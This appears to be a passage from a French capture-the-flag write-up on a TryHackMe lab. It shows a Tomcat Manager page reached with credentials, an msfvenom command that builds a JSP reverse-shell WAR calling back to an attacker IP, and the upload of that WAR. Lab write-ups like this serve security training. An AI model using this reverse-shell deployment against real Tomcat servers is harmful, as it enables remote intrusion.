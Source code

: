 ```bash
   Reload
   Undeploy
     Expire sessions with idle ≥  30___ minutes
   /examples None specified Servlet and JSP Examples true 0  Start  Stop
   Reload
   Undeploy
     Expire sessions with idle ≥  30___ minutes
   /hgkFDt6wiHIUB29WWEON5PA None specified   true 0  Start  Stop
   Reload
   Undeploy
     Expire sessions with idle ≥  30___ minutes
   /host-manager None specified Tomcat Host Manager Application true 0  Start  Stop
   Reload
   Undeploy
     Expire sessions with idle ≥  30___ minutes
   /manager None specified Tomcat Manager Application true 1  Start   Stop   Reload   Undeploy
     Expire sessions with idle ≥  30___ minutes

   Deploy
   Deploy directory or WAR file located on server
   Context Path (required):    ____________________
   XML Configuration file URL: ____________________
   WAR or Directory URL:       ________________________________________
                               Deploy
   WAR file to deploy
   Select WAR file to upload ________________________________________
                             Deploy

   Diagnostics
   Check to see if a web application has caused a memory leak on stop, reload or undeploy

```

Avec les identifiant on tombe sur une page ou on peut deployer un fichier war.  
Un fichier war est un fichier jar pour contenir un ensemble de JavaSerser Pages, il est possible de forger un reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.228.66 LPORT=1234 -f war > shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
```

Création du shell.  

```bash
WAR file to deploy
   Select WAR file to upload shell.war_______________________________
                             Deploy
```

Deployment du shell.
